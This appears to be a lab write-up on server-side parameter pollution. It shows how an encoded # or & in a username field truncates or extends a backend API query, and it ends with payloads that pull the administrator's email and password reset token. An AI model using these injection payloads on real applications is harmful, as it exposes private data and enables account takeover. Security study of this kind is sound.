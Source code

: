 * You can use a URL-encoded \# character to attempt to truncate the server-side request.

```
GET /userSearch?name=peter%23foo&back=/home
```

*  The front-end will try to access the following URL:

```
GET /users/search?name=peter#foo&publicProfile=true
```

*  Review the response for clues about whether the query has been truncated. For example, if the response returns the user peter, the server-side query may have been truncated. If an Invalid name error message is returned, the application may have treated foo as part of the username. This suggests that the server-side request may not have been truncated.

* If you're able to truncate the server-side request, this removes the requirement for the publicProfile field to be set to true. You may be able to exploit this to return non-public user profiles. 


<br>


Note

It's essential that you URL-encode the \# character. Otherwise the front-end application will interpret it as a fragment identifier and it won't be passed to the internal API.



<br>

##### Lab: Exploiting server-side parameter pollution in a query string

* Submit fuzzing payloads to identify application behavior:

* The following payload returned a "Parameter is not supported" message, which indicates that the injected parameter was processed by the backend API:

```
csrf=VlaNiS8DCwtHUAzh7m5tsBzmxx5lWd4T&username=administrator%26id=test
```

* The following payload returned a "Field not specified" message:

```
csrf=VlaNiS8DCwtHUAzh7m5tsBzmxx5lWd4T&username=administrator%23test
```

* The following payload returned the email for the provided username: (here we are using the "field" parameter that the application previously mentioned)

```
csrf=VlaNiS8DCwtHUAzh7m5tsBzmxx5lWd4T&username=administrator%26field=email%23
```

* The following payload allowed us to get the "reset_token" value for the administrator user, the parameter name (reset_token) was found by reading through a JavaScript file exposed in the application:

```

csrf=VlaNiS8DCwtHUAzh7m5tsBzmxx5lWd4T&username=administrator%26field=reset_token%23
```
